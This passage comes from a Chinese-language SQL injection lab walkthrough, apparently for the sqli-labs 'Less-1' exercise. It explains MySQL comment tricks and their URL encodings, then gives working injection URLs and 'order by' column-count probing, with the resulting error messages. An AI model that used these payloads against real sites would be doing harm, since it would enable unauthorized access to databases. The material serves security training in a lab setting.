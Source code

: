 但是单单这样还是不够的,`and '1'='2' LIMIT 0,1`在SQL语句中还是会执行,可能会对我输入进行干扰。这就需要注释了。

mysql的注释方式有以下几种：

* 第一种:#	

	\#在url中编码为`%23`

* 第二种:-- (注意--后面还有个空格)

	空格的编码是`%20`

* 第三种:--+ 

	第二种的变形,浏览器会把`+`编码成空格

`'`的url编码为`%27`,下面的测试先把单引号用`%27`表示,空格用`%20`表示,#用`%23`,避免出问题。在url中输入如下:

> 第一种:#

`http://10.60.250.214/Less-1/?id=1%27%20%23`

![6](https://i.imgur.com/X5WsedG.png)

> 第二种：-- (注意--后面还有个空格)

`http://10.60.250.214/Less-1/?id=1%27%20--%20`

![7](https://i.imgur.com/CPbYISh.png)

> 第三种:--+

`http://10.60.250.214/Less-1/?id=1%27%20--+`

![8](https://i.imgur.com/TW7fFE7.png)

### 猜字段 ###

#### 猜字段数 ####

这里我采用第一种注释方式,当然其他的也可以。

`http://10.60.250.214/Less-1/?id=1%27%20order%20by%203%23`

这里我换了个hackbar插件,原来那个有bug

![9](https://i.imgur.com/ZIXMXUP.png)

order by 数字1~3显示的都与这个页面相同,表示至少有3个字段

`http://10.60.250.214/Less-1/?id=1%27%20order%20by%204%23`

![10](https://i.imgur.com/lfKFcjO.png)

图片上的报错信息是:

`SELECT * FROM users WHERE id='1' order by 4#' LIMIT 0,1
Unknown column '4' in 'order clause'`

说明第4个字段不存在,那就只有3个字段。
